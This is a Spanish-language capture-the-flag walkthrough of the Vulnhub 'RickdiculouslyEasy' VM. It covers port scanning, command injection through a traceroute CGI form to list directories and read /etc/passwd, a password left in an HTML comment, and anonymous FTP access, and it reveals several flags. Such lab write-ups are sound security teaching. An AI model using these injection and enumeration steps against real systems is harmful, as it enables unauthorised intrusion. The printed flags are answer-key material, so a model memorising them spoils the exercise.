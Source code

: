 # CTF: RickdiculouslyEasy



### Vulnhub: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/
**Total de puntos:** 130

----------------

Descargue la vm y luego de correrla en VirtualBox, lo primero que hice fue hacer un escaneo de todos los puertos y las versiones de sus servicios:
```console
root@localhost$: nmap -sV 192.168.56.106 -p- 
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh?
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
9090/tcp  open  http    Cockpit web service
13337/tcp open  unknown
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
60000/tcp open  unknown
```
Al tener las versiones lo primero que hice fue buscar con "searchsploit" por vulnerabilidades en cada servicio, pero no se encontro nada importante.
Mi proximo paso fue chequear el puerto 80 y el 9090 ya que el mismo esta catalogado como "web service"

La primer bandera la encontre navegando la siguiente url, es la mas sensilla:

**http://192.168.56.106:9090**

Y ya en el body esta la bandera:

#### FLAG {There is no Zeus, in your face!} - 10 Points

---

Mi proximo paso fue seguir con el puerto 80, por lo tanto navegue la ip para ver que me trae:

**http://192.168.56.106**

Ahi pude ingresar a un sitio web, el cual revisando el html y las llamadas con el developer tools de firefox no encontre nada.
Mi proximo paso fue intentar ver si hay un robots.txt para ver si tienen listado algun directorio Disallow.
Ingresando a **http://192.168.56.106/robots.txt** encontre lo siguiente:
```
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

Luego de ver los directorios, ingrese a **/cgi-bin/root_shell.cgi** pero era algo falso, no tenia nada importante ese archivo.
El segundo archivo, **/cgi-bin/tracertool.cgi**, tiene una herramienta para hacer trace a IPs.
Probe ingresando cualquier ip a ver que me devuelve a ver si funciona y correctamente me devolvio algo.
Ingrese 8.8.8.8 y la respuesta fue:
```
traceroute to 8.8.8.8 (8.8.8.8), 30 hops max, 60 byte packets
```
Lo proximo que probe fue hacer un command injection haciendo un **ls -la**. Puse lo sigueinte en el cuadro de trace

![alt text](https://i.imgur.com/0m8uZV0.png)


Listo, esto se puede explotar de alguna manera, asi que hice que me liste todo un paso atras:

![alt text](https://i.imgur.com/FWaSKyp.png)

Ahi pude ingresar a la carpeta html y ver que existe un archivo llamado "password"

![alt text](https://i.imgur.com/zkB7hQi.png)

Por ultimo navegue a esa misma ruta y vi que el directorio estaba con el Index habilitado y tenia un archivo llamado FLAG.txt donde encontre la segunda bandera.

**http://192.168.56.106/passwords/**

![alt text](https://i.imgur.com/ukCit3U.png)

#### FLAG{Yeah d- just don't do it.} - 10 Points

Por ultimo revise el archivo **passwords.html** que a simple vista no tenia nada importante, pero viendo el codigo fuente encontre un comentario:

```html
<!--Password: winter-->
```
Por lo tanto ya tenemos un password de alguien pero no sabemos de quien.

**Password:** winter

---

Una vez conseguida esa bandera, pense que se podia usar el mismo exploit para traer el contenido de /etc/passwd

![alt text](https://i.imgur.com/bMQBhVy.png)

Viendo el contenido tome nota de los usuarios que se pueden usar bash:

+ **RickSanchez**
+ **Morty**
+ **Summer**

Luego segui intentando ver si podia seguir explotando algo pero al ver que no segui con los proximos puertos.

---

El proximo puerto con el que segui fue el del ftp, el puerto 21.
Lo primero que hice fue correr un nmap con los scripts mas comunes que vienen por defecto con la opcion -sC

```console
root@localhost:~# nmap -sC 192.168.56.106 -p 21
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-27 12:39 EDT
Nmap scan report for pepe.com (192.168.56.106)
Host is up (0.0038s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```
Y lo primero que vi fue que esta permitido el logueo anonimo y veo listado un archivo llamado FLAG.txt
Asi que lo siguiente fue hacer un curl al archivo para ver el contenido y de esa manera consegui otra bandera.

```console
root@localhost:~# curl ftp://192.168.56.106/FLAG.txt
FLAG{Whoa this is unexpected} - 10 Points
```
---
